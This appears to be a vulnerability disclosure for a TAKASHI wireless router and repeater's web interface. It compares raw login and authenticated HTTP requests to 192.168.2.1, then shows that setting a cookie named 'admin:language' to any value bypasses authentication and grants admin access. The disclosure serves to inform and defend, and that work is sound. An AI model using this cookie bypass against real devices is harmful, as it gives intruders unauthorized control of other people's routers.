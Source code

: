 #TAKASHI Wireless Instant Router And Repeater Web Application Authentication Bypass<br />
`Software version 	    V5.07.38_AAL03`<br />
`Hardware version 	    V3.0`<br />

This vulnerability is related to how the web application handles sessions for authenticated users. The issue arises due to improper session management, allowing unauthorized users to gain admin-level access.

#Below You Will See A Request Comparison

To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

**An unauthenticated request looks like this:**

POST /LoginCheck HTTP/1.1<br />
Host: 192.168.2.1<br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0<br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br />
Accept-Language: en-US,en;q=0.5<br />
Accept-Encoding: gzip, deflate, br<br />
Referer: `http://192.168.2.1/login.asp`<br />
Content-Type: application/x-www-form-urlencoded<br />
Content-Length: 46<br />
Origin: `http://192.168.2.1`<br />
DNT: 1<br />
Sec-GPC: 1<br />
Connection: keep-alive<br />
Cookie: language=en<br />
Upgrade-Insecure-Requests: 1<br />
Priority: u=0, i<br />

Username=admin&checkEn=0&Password=whatsthepassword

**When the user is authenticated, the request looks like this:**<br />

GET /wireless_basic.asp HTTP/1.1<br />
Host: `192.168.2.1`<br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0<br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br />
Accept-Language: en-US,en;q=0.5<br />
Accept-Encoding: gzip, deflate, br<br />
Referer: `http://192.168.2.1/advance.asp`<br />
DNT: 1<br />
Sec-GPC: 1<br />
Connection: keep-alive<br />
Cookie: language=en; admin:language=en<br />
Upgrade-Insecure-Requests: 1<br />
Priority: u=4<br />


Key Difference<br />

The key difference between the two requests is the presence of the following cookie:<br />

`admin:language=en`

The Vulnerability<br />

This vulnerability is based on the way the application validates session data. By manipulating the admin:language cookie, an unauthenticated user can gain access to authenticated pages.<br />
Exploit Mechanics

To exploit this vulnerability, all an attacker needs to do is set the cookie admin:language with any arbitrary value. The application will trust this cookie and treat the user as an authenticated admin.

`admin:language=<any_value>`

Where <any_value> can be any string,text or numbers. As long as the cookie is given that name, the application will behave as if the user is authenticated.
Conclusion

This vulnerability shows the importance of proper session management.

